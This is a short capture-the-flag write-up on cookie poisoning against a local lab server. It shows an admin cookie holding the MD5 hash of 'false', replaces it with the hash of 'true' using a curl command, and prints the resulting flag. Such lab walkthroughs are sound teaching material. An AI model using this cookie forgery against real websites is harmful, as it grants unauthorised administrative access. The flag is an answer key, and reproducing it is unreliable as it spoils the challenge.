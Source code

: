 # Cookie poisoning
Cookie poisoning is the modification of a cookie by an attacker to gain unauthorized information.

### Step 1
Navigate to http://0.0.0.0/index.php
> * Inspect page and find the header section
> * Find **cookie: _I_am_admin=68934a3e9455fa72420237eb05902327_**  

### Step 2
> * md5 decrypt: 68934a3e9455fa72420237eb05902327 => false
> * md5 encrypt : true => b326b5062b2f0e69046810717534cb09

### Step 3
> * Attack: Use cURL to modify the cookie section within the header with new md5 encoded string
> 1. curl -b 'I_am_admin=b326b5062b2f0e69046810717534cb09' http://0.0.0.0/index.php | grep 'Flag'
> 2. **THE FLAG IS : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3**

https://searchsecurity.techtarget.com/definition/cookie-poisoning

https://catonmat.net/cookbooks/curl/set-cookies

https://www.md5online.org/md5-decrypt.html
